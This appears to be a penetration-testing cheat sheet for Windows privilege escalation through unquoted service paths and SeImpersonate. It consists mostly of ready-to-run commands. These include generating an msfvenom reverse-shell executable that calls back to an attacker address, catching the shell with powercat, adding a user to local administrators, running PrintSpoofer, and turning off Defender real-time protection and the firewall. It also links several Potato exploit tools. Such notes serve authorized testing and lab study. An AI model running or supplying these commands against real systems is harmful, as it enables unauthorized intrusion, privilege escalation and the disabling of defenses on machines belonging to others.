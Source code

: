## Unquoted service path

```bash
powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename JAWS-Enum.txt

# From Kali or ParrotOS
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.55 LPORT=1234 -f exe > abyss.exe

# Run a web server
Python -m SimpleHTTPServer
```

powercat is a powershell function. First you need to load the function before you can execute it. You can put one of the below commands into your powershell profile so powercat is automatically loaded when powershell starts.

```bash
Import-module .\powercat.ps1
Powercat -l -p 1234 -Verbose

net localgroup administrators student1 /add
```

read more on: [@SumitVerma101](https://medium.com/@SumitVerma101/windows-privilege-escalation-part-1-unquoted-service-path-c7a011a8d8ae)

## SEImpersonate

- Download Print Spoofer
https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0

```bash
# Run Print Spoofer
PrintSpoofer.exe -d 1 -c cmd

# Disable Firewal and AV
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableIOAVProtection $true
netsh advfirewall set allprofiles state off
```

other exploit to test with seimpersonate
https://github.com/ohpe/juicy-potato
https://github.com/antonioCoco/RogueWinRM
https://github.com/CCob/SweetPotato
https://github.com/antonioCoco/RoguePotato

